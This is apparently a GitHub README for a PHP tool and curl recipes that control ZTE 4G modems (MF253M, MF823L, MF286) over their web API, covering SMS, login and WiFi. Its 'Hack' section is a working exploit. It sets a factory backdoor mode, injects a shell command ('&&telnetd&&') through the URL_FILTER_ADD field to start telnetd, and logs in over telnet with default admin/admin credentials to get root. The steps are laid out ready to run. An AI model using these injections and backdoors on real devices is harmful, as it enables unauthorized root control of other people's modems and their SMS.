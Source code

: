 # ZTE API and Hack

## PHP Classes

See **src** folder:

Curl.php - Curl requests

Json.php - Json Encode / Decode

Hex.php - Hex Encode / Decode

Sms.php - Sms List, Send and Delete Message(s)

Login.php - Login

Wifi.php - WiFi Enable / Disable

Hack.php - Hack the Modem

## How to Use PHP Class

**Require:**

Install php-curl extension

Install php-json extension

Set your **modem_ip** and **password** on **index.php**

**Optional:**

Composer [https://getcomposer.org](https://getcomposer.org)

**CLI interface:**

php index.php **parameters**

| parameter1 | parameter2 |  parameter3 | Result |
|------------|------------|-------------|--------|
|   ls       |            |             |**List all Messages** |
|	  rm       | #          |             |**Delete the Message #**|
|   rm       | '*'        |             |**Delete all Messages**|
|   snd      | Phone#     | 'Message'   |**Send The 'Message' to Phone#**|
|   wifi     | on/off     |             |**Enable or Disable Wifi**|
|   hack     |            |             |**Hack Modem**|

**Obs:** Tested with PHP 7.2.29

Minimum PHP version 5.3.0

To Help please open an issue
To contribute open a PullRequest

***


## API

### Work with MF253M (Tested), MF823L, MF286, maybe others whit Web GUI

modem_ip is your modem IP

Password is base64 encoded
[https://www.base64encode.org](http://https://www.base64encode.org)

### Login
```
Method: POST

curl -s --header "Referer: http://<modem_ip>/index.html" -d 'isTest=false&goformId=LOGIN&password=<Password>' http://<modem_ip>/goform/goform_set_cmd_process


if is OK {"result":"3"}
if is BAD {"result":"1"}
```

### SMS List
```
Method: GET

curl -s --header "Referer: http://<modem_ip>/index.html" http://<modem_ip>//goform/goform_get_cmd_process\?isTest\=false\&cmd\=sms_data_total\&page=0\&data_per_page\=500\&mem_store\=1\&tags\=10\&order_by\=order+by+id+desc

if is OK {"messages":[]}

```

### Delete SMS Message(s)
```
Method: POST

curl -s --header "Referer: http://<modem_ip>/index.html" -d "isTest=false&goformId=DELETE_SMS&msg_id=<id>;&notCallback=true" curl -s --header "Referer: http://<modem_ip>/index.html"
http://<modem_ip>/goform/goform_set_cmd_process

id is a Message ID
To delete multiple pass ID one by one

if is OK {"result":"success"}

```

### Send SMS Message
```
Method: POST

curl -s --header "Referer: http://<modem_ip>/index.html" -d "isTest=false&goformId=SEND_SMS&notCallback=true&Number=<phone_number>&sms_time=<date>&MessageBody=<message>&ID=-1&encode_type=UNICODE"
http://<modem_ip>/goform/goform_set_cmd_process

phone_number is urlencoded
message is hexencoded

if is OK {"result":"success"}
```

### Disable WiFi
```
Method: POST

curl -s --header "Referer: http://<modem_ip>/index.html" -d 'goformId=SET_WIFI_INFO&isTest=false&m_ssid_enable=0&wifiEnabled=0' http://<modem_ip>/goform/goform_set_cmd_process

if is OK {"result":"success"}

```

### Enable WiFi
```
Method: POST

curl -s --header "Referer: http:/<modem_ip>/index.html" -d 'goformId=SET_WIFI_INFO&isTest=false&m_ssid_enable=0&wifiEnabled=1' http://<modem_ip>/goform/goform_set_cmd_process

if is OK {"result":"success"}

```

***

## Hack

Linux  users must install curl and telnet

Password is base64 encoded
[https://www.base64encode.org](http://https://www.base64encode.org)

Linux users may use base64 in terminal (see man base64)

modem_ip is your modem IP

### Factory Backdoor

```
Method: POST

curl -s -H "Referer: http://<modem_ip>/index.html" "http://<modem_ip>/goform/goform_set_cmd_process?isTest=false&goformId=CHANGE_MODE&change_mode=2&password=<Password>"

if is OK {"result":"success"}

```
### Enable Root Acess

```
Method: POST

curl "http://<modem_ip>/goform/goform_set_cmd_process" -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -H "Referer: http://<modem_ip>/index.html" --data "isTest=false&goformId=LOGIN&password=<Password>"

if is OK  {"result":"3"}

```

### Exploits Nvram

```
Method: POST

curl "http://<modem_ip>/goform/goform_set_cmd_process" -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -H "Referer: http://<modem_ip>/index.html" --data "isTest=false&goformId=URL_FILTER_ADD&addURLFilter=http%3A%2F%2F_L33T_H4X0R_%2F%26%26telnetd%26%26"

if is OK {"result":"success"}

```

### SSH Access

```
telnet <modem_ip> 4719

User: admin
Pass: admin

```

***

### Thanks to:

[https://taisto.org/ZTE_MF823D](http://https://taisto.org/ZTE_MF823D) - for PHP Class

[https://gist.github.com/mariodian/65641792700d237d30f3f47d24c746e0](http://gist.github.com/mariodian/65641792700d237d30f3f47d24c746e0) - for script shell

[https://gist.github.com/mariodian/bafe4b0a83226d7680ee41424c4e5b7b](http://gist.github.com/mariodian/bafe4b0a83226d7680ee41424c4e5b7b) - for [https://pushover.net]
(http://https://pushover.net)

[https://www.fr.net.br/2016/02/modem-zte-mf823l-avaliacao.html](http://https://www.fr.net.br/2016/02/modem-zte-mf823l-avaliacao.html)

[http://my-router.blogspot.com/2015/09/zte-mf823-4g-change-ip-of-modem-and-get.html](http://http://my-router.blogspot.com/2015/09/zte-mf823-4g-change-ip-of-modem-and-get.html)

[http://blog.asiantuntijakaveri.fi/2017/03/backdoor-and-root-shell-on-zte-mf286.html](http://blog.asiantuntijakaveri.fi/2017/03/backdoor-and-root-shell-on-zte-mf286.html) - for Hack
